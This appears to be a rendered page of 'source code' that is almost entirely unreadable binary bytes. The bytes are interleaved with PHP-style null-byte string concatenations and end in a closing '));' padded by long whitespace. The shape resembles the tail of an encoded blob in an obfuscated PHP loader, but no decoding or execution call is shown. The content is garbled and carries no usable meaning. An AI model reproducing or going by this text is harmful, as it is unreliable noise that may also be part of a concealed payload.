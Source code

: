 ‡!wŽ’*çœ—Ï#Ôÿ@eÍcŠÊèE<œ³Ý…ÀÇV"…üŒÒ8‚ªëÛéêrŠJëi\'§fCÿ@}qW£ŠÙ‹¿c†Þ' . "\0" . 'Ë>ÇùÜ·“3“e¹éæ¸ak´$tÈÖ÷¸OË-NQ¡fòßF6ùd5Ñ¾þéòßÿRàV• ÑEÿÆR×v¢*jµ.×*ÑòA*CšÞ„1Š´3ŸÂ7jpà kí{qÍtY±ÓP¿NIäGÅêNFuqo$„¤ß>FM¼žlªÛ©ˆhdnªŒj	ÆÒXže5ÉÚW96Î›/§.ÌZúø#¾Ñºuo=‡1BaÉ.^;7ˆü0šˆ¾Q¿Ž‹3ñˆF„Jšf€zNå©D[*¯4u†Ÿ³—öÀ²TžGžé®ùÐSb×AË†' . "\0" . 'TŽ;!°y¾÷1YS[ro‰ˆsåQnâ›©hÆÞlþoÁ5ø™„ÕÆJ\\Ìßõ	=±Ï‚ÉZ_fïÙôb&ÓÚñbÕjÀ¸vÀòÚ1ùf®²‡æP¦¥ã±´‰À©Ô€…mQœÉÂ±)Êo"Óx¾¿©é=g¹÷‡Ïâ„÷ôðÈO­Ó¹µôµ¶Îî›@#,"šµ)úöKˆ`qÜÖ·ëÍóÒCÆñÂq½' . "\0" . 'ÐØe`·PNÕñ|/2\'[m„Z¨+¾dþÛ.ã³¨.p2Þ¾an\'¥JCŸ’*‡†öC;ˆôîî–W©g<”CIÉco&ÐC¸êÈnd¢Èw•3üákBÃ3³ñ;‰Ë•œ QU¥¢Uj­“v¶’á¢»QKÛT(	˜L
IÕòëf/æ›—îÙPejÐb~(J¾µÕ' . "\0" . '+ÁÂþ°
îöV£}—FAàÞ2©z=ñÉsÖŸl…Çö6÷cÅ”.ÙÄï·…1…BýË-9p!Ãöe¯wd7é“x&i`óç’jW^èë{_¾¼ð/ìTÙzÂêL}–¥Oûù4s8±þûŽÇ*Šâ‚P™¼¦2áQ¦2áU†pý^¥.Ï' . "\0" . '' . "\0" . ''));                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           
